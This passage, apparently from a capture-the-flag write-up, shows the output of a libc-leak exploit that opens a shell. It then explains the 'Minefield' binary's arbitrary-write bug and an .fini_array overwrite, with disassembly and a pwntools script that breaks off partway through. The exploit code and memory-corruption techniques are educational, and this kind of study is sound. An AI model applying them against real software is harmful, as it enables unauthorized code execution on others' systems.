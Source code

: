 And here it is in action:

```
► ./sploit.py SILENT=1
Sending numbers...
Sending payload 1...
puts@libc leak: 0x7fe80cb5faa0
libc base: 0x7fe80cadf000
execve gadget: 0x7fe80cb2e3d5
Sending numbers...
Sending payload 2...
Getting shell...
Problem ingored
$ cat flag.txt
CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}
```

Minefield
---------

This binary challenge is compiled with a stack canary and NX. There is no RELRO which means we can overwrite function pointers in the GOT.

The binary itself is very simple. It prompts the user if they’re ready to plant a mine. Selecting No causes the binary to exit. Selecting Yes will prompt the user for a type of mine to use, and a location to plant it in. The user’s input is passed to `strtoull()` which converts it into an unsigned long long value. If we examine the disassembly of `mission()`, we see that the “type of mine” is actually an address that “location of mine” is written to. This is effectively a write primitive that allows us to write a value anywhere in memory that’s writable:

```
0x00400ad5      mov     rdx, qword [location_of_mine]
0x00400ad9      mov     rax, qword [type_of_mine]
0x00400add      mov     qword [rax], rdx
```

The first thought was to overwrite a function pointer in the GOT, but there are actually no functions called right after `mission()` returns. If we look at the writable sections reported by Cutter, we see that `.fini_array` is at 0x601078. This location contains a pointer to `__do_global_dtors_aux` which handles destructors.

```
pwndbg> x/a 0x601078
0x601078:	0x400860 <__do_global_dtors_aux>
```

Functions in `.fini_array` are called by the runtime linker when the program terminates. Since this section is writable, we can overwrite 0x601078 with an address of our choosing and control execution flow right before the binary terminates.

As it turns out, this binary provides a “win” function that prints the flag. In this case, it’s called `_()` at 0x40096b. Exploitation is pretty simple at this point. When asked for the type of mine, we enter 0x601078, and when asked for a location, we enter 0x40096b:

```
#!/usr/bin/env python3

from pwn import *

context(os="linux", arch="amd64")
elf = context.binary = ELF("minefield")

r = remote("178.62.14.240", 31535)

r.recvuntil("> ")
r.sendline("2")

r.recvuntil(": ")
r.sendline("0x601078")           # .fini_array
```